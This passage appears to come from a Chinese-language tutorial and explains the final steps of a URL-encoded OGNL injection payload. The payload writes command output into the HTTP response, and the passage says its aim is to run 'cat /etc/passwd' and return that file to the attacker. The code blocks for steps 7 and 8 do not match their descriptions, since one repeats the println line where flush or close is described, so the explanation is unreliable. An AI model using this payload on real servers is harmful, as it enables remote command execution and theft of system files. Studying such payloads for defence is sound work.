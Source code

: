 6. `%23resp.getWriter().println(%23str)` 部分通过 `getWriter()` 方法获取 `PrintWriter` 对象，并使用 `println()` 方法将 `str` 写入响应输出流。

   ```java
   %23resp.getWriter().println(%23str)
   ####
   #resp.getWriter().println(#str)
   ```

7. `%23resp.getWriter().flush()` 部分刷新响应输出流。

   ```java
   %23resp.getWriter().println(%23str)
   ####
   #resp.getWriter().println(#str)
   ```

8. `%23resp.getWriter().close()` 部分关闭响应输出流。

   ```java
   %23resp.getWriter().flush(),%23resp.getWriter().close()
   ####
   #resp.getWriter().println(#str)
   ```

这个 payload 的目的是通过执行命令 `cat /etc/passwd` 并将结果写入响应输出流中，从而将 `/etc/passwd` 文件的内容返回给请求的客户端。



